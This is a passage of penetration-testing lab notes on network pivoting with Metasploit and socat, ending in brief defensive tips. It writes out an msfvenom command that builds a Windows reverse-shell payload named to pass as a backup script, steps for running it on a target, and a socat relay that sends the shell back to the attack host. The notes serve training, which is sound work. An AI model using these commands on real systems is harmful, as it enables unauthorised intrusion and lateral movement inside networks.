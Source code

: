     - Starts a handler on 0.0.0.0:8081 for a Windows Meterpreter session.
  - **Generate Windows Payload**:
    - Command: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 LPORT=1234 -f exe > backupscript.exe`
    - Creates a reverse TCP payload (`backupscript.exe`) targeting the pivot host (172.16.5.129:1234).
    - Payload size: 510 bytes, EXE file: 7168 bytes.
  - **Execute Payload on Windows Target**:
    - Transfer `backupscript.exe` to the Windows host (172.16.5.129) and execute.
    - Result: Meterpreter session established (e.g., 10.10.14.18:8081 → 10.10.14.18:40173).
    - Access Windows shell: `meterpreter > shell` (e.g., Windows 10.0.17763.1637).
- **Key Insight**: Reverse port forwarding allows the pivot host to relay connections from internal targets to the attacker, similar to SSH reverse forwarding.

**Key Takeaways**:
- **Meterpreter Session**: Established via a reverse TCP payload (`msfvenom`) and multi/handler, providing a powerful pivoting platform.
- **SOCKS Proxy**: Uses `auxiliary/server/socks_proxy` for dynamic tunneling, routing traffic through the Meterpreter session (e.g., Nmap scans via Proxychains).
- **Local Port Forwarding**: Uses `portfwd add` to map internal services (e.g., RDP) to the attack host, akin to SSH `-L`.
- **Reverse Port Forwarding**: Uses `portfwd add -R` to relay connections from the pivot host to the attack host, enabling payloads to connect back.
- **Autoroute**: Adds routes to internal networks (e.g., 172.16.5.0/23) for seamless traffic routing.
- **Practical Workflow**:
  - Compromise the Ubuntu pivot host with a Meterpreter payload.
  - Add routes to the internal network (`autoroute`).
  - Set up SOCKS proxy or port forwarding for enumeration or exploitation.
  - Deliver a Windows payload via reverse port forwarding for further compromise.

**Security Tips**:
- Monitor for unauthorized Meterpreter payloads or unusual network connections on pivot hosts.
- Restrict execution of unknown binaries (e.g., `backupjob`, `backupscript.exe`).
- Block outbound connections to suspicious IPs/ports (e.g., 10.10.14.18:8080).
- Use firewalls to limit internal network access from pivot hosts.
- Audit routing tables and proxy configurations for anomalies.

**Limitations**:
- Requires initial compromise of the pivot host to deploy the Meterpreter payload.
- ICMP blocks may necessitate TCP-based scans (`-Pn`).
- Relies on Metasploit’s infrastructure, which may be detected by advanced defenses.

### Notes on Socat Redirection with a Reverse Shell

**Overview**:
- Focuses on using `socat`, a bidirectional relay tool, to redirect network traffic through a compromised Ubuntu pivot host (e.g., 10.129.202.64) to establish a reverse shell from a Windows target (e.g., 172.16.5.129) to the attack host (e.g., 10.10.14.18), without relying on SSH tunneling.

**1. Socat Redirection**:
- **Definition**: `socat` creates a pipe between two network channels, acting as a redirector to forward traffic from one host/port to another.
- **Use Case**: Redirects a reverse shell connection from a Windows target through the pivot host to the attack host’s listener.
- **Command**:
  - On the Ubuntu pivot host:
    - `socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80`
    - Listens on `localhost:8080` (pivot host) and forwards all traffic to the attack host (10.10.14.18:80).
- **Key Insight**: `socat` provides a lightweight alternative to SSH or Meterpreter for traffic redirection, requiring minimal configuration.
